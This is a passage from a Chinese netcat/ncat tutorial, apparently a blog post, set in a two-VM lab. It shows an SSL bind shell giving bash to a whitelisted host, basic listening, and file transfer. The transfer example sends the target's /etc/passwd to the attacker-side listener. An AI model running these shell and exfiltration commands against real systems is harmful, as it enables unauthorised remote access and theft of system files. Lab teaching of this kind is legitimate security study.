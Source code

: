 ![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/faa74e93737ddd9affb2ac39e9f91470.png#pic_center)

客户端 【控制端】：ncat -nv 192.168.40.150 333 --ssl
服务器端【被控制端】：ncat -c bash --allow 192.168.40.146 -vnl 333 --ssl
还是那一套，只不过这里使用了一个加密的管道ssl，然后使用了白名单机制，只允许192.168.40.146来连接我
![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/eb410909cf00117676ef47c88bcd2ffe.png#pic_center)

在物理机上（类似中间人）抓包，抓到的是密文
![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/f38b56c8c2da039b5db86408e0474594.png#pic_center)

假设这个时候，win7想过来连接Cent，会发现他是连接不上的。
![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/ca357d4d03b02b6fd2ab88ac65d45521.png#pic_center)

补充，windows是不需要额外下载的，通过上面的提供的地址http://nmap.org/dist/ncat-portable-5.59BETA1.zip下载nc之后，就能使用ncat，不需要额外下载





nc的安装和简单操作
一．下载nc(这里我用的是[yum](https://so.csdn.net/so/search?q=yum&spm=1001.2101.3001.7020)源的下载)
命令: `yum install -y nc`![在这里插入图片描述](https://img-blog.csdnimg.cn/e217939edbd24dfd954f813b8e70cfd4.png#pic_center)

二．实现连接通信操作
(我这里用的是两台[虚拟机](https://so.csdn.net/so/search?q=虚拟机&spm=1001.2101.3001.7020)相互通信， 分别是contos 7 x86版 和 kali 2022版，这里可以把contos当作靶机,kali当作客户端)

1.查找[kali](https://so.csdn.net/so/search?q=kali&spm=1001.2101.3001.7020)的ip地址
命令：`ifconfig`
![在这里插入图片描述](https://img-blog.csdnimg.cn/ba8d74cb0f884ec18d844502d3ca5dbc.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6Lez5qW85qKv5LyB6bmF,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
2.利用nc 打开端口进行[监听](https://so.csdn.net/so/search?q=监听&spm=1001.2101.3001.7020)(这里我打开的是9999端口)
命令：`nc -lnvp 9999`
![在这里插入图片描述](https://img-blog.csdnimg.cn/a3a16f8595a54865a148e94a55b83d06.png#pic_center)
这样就说明已经开始监听了。

3.打开contos 7 连接kali
命令：`nc 192.168.116.xxx 9999`
![在这里插入图片描述](https://img-blog.csdnimg.cn/5b9c82eda576492f89216c564b4691e3.png#pic_center)
输入hello world 后回车 然后我们打开kali，再kali中看到监听的结果
![在这里插入图片描述](https://img-blog.csdnimg.cn/8413492afde14c4a8db0dccfaa03e387.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6Lez5qW85qKv5LyB6bmF,size_17,color_FFFFFF,t_70,g_se,x_16#pic_center)

三．传输文件内容
1.在客户端（kali）建立一个文件1.txt，用户接受通信
命令：`nc -lvp 9999 >1.txt`
![在这里插入图片描述](https://img-blog.csdnimg.cn/a026a39c4bc04563abe43bb12643fbaa.png#pic_center)

2.在服务端（contos 7）传送服务端密码
命令：`nc 192.168.116.xxx 9999 < /etc/passwd`
（如果权限不够，请学习上一篇的漏洞复现，我有讲如何操作）
![在这里插入图片描述](https://img-blog.csdnimg.cn/0c94ab0fde5f4493a041b574558bb752.png#pic_center)
3.观察客户端是否有文件传输进来
命令：`cat 1.txt`
![在这里插入图片描述](https://img-blog.csdnimg.cn/13839775616347e1ab85395dc3dab975.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6Lez5qW85qKv5LyB6bmF,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
那么我们如何确定传输的内容是刚监听到的呢？
